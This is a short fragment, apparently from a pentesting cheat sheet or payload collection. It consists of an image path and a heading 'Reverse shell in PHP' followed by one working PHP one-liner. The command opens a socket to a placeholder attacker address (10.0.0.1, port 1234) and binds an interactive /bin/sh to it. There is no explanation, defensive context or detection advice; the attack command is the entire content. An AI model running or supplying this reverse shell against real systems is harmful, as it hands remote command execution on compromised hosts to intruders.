 ### Reverse shell in PHP
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
